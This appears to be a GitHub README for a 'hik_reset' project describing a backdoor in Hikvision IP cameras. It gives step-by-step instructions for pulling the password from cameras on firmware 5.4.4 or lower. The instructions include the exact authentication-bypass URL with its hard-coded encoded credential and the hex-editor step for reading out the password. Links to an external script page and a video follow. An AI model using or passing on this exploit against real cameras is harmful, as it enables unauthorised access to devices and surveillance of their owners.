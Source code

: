 # hik_reset
Hikvision backdoor IP camera

Requirements: Ubuntu 18, php 7, Apache, OpenJDK 8

<p><b>You can view the password from the camera without even resetting its settings
<p>List of requirements</b>

<p>1. The firmware version on the camera must be 5.4.4 or lower. Use SADP Tool to check
<p>2. Your PC or laptop must be on the same local network as the camera
<h2>Instructions</h2>

<p>1. Download and install the SADP Tool program on your PC or laptop
<br><a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>Download link</b></a>

<p>2. Go to the following IP address in your browser
<br>http://<i><b>camera_ip</i></b>/System/configurationFile?auth=YWRtaW46MTEK
<br>Where, camera_ip - IP address of the camera. You can find out IP using the <a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>SADP program</b></a>



<p>3. The file that you downloaded from the server (the file will have the name 6bf2bc3e2e31b280d83051dfa7444e22plaintextOutput, the name changes every time) should be uploaded to the site with the online HEX editor
<br><a href="https://hexed.it/" target="_blank" ><b>https://hexed.it</b></a>
<p>4.Use the camera web interface and Internet Explorer to enter the camera

Manual
https://www.youtube.com/embed/4PJXuYcMjMY

<b><center>An example of the script
http://h.cctv-world.space/en.html
